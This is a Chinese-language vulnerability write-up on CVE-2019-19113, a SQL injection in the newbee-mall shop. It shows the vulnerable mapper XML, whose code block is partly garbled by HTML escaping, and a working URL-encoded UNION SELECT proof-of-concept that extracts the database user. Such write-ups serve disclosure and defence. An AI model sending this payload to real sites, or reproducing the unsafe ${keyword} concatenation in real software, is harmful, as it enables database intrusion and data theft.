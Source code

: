 # CVE-2019-19113）Newbee-mall新蜂商城sql注入

> 原文：[https://www.zhihuifly.com/t/topic/3037](https://www.zhihuifly.com/t/topic/3037)

# （CVE-2019-19113）新蜂商城sql注入

## 一、漏洞简介

newbee-mall 2019-10-23之前版本中的main/resources/mapper/NewBeeMallGoodsMapper.xml文件存在SQL注入漏洞。该漏洞源于基于数据库的应用缺少对外部输入SQL语句的验证。攻击者可利用该漏洞执行非法SQL命令。

## 二、漏洞影响

Newbee-mall 2019-10-23之前版

## 三、复现过程

\src\main\resources\mapper\NewBeeMallGoodsMapper.xml

```
 <select id="findNewBeeMallGoodsListBySearch" parameterType="Map" resultMap="BaseResultMap">
        select
        <include refid="Base_Column_List"/>
        from tb_newbee_mall_goods_info
        <where>
            <if test="keyword!=null and keyword!=''">
                and (goods_name like CONCAT('%','${keyword}','%') or goods_intro like CONCAT('%','${keyword}','%'))
            </if>
            <if test="goodsCategoryId!=null and goodsCategoryId!=''">
                and goods_category_id = #{goodsCategoryId}
            </if>
        </where>
        <if test="orderBy!=null and orderBy!=''">
            <choose>
                <when test="orderBy == 'new'">

```
 order by goods_id desc
            &lt;/when&gt;
            &lt;when test="orderBy == 'price'"&gt;

                order by selling_price asc
            &lt;/when&gt;
            &lt;otherwise&gt;

                order by stock_num desc
            &lt;/otherwise&gt;
        &lt;/choose&gt;
    &lt;/if&gt;
    &lt;if test="start!=null and limit!=null"&gt;
        limit #{start},#{limit}
    &lt;/if&gt;
&lt;/select&gt; 
``` 
```

如果使用$ {keyword}拼接sql语句，则存在SQL注入的风险

poc：

```
http://0-sec.org:28089/search?goodsCategoryId=&keyword=%5C%25%27%29%29%20%55%4E%49%4F%4E%20%41%4C%4C%20%53%45%4C%45%43%54%20%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%43%4F%4E%43%41%54%28%30%78%37%31%37%36%36%32%37%38%37%31%2C%49%46%4E%55%4C%4C%28%43%41%53%54%28%43%55%52%52%45%4E%54%5F%55%53%45%52%28%29%20%41%53%20%43%48%41%52%29%2C%30%78%32%30%29%2C%30%78%37%31%36%32%37%38%36%62%37%31%29%2C%4E%55%4C%4C%2C%4E%55%4C%4C%23&orderBy=default 
```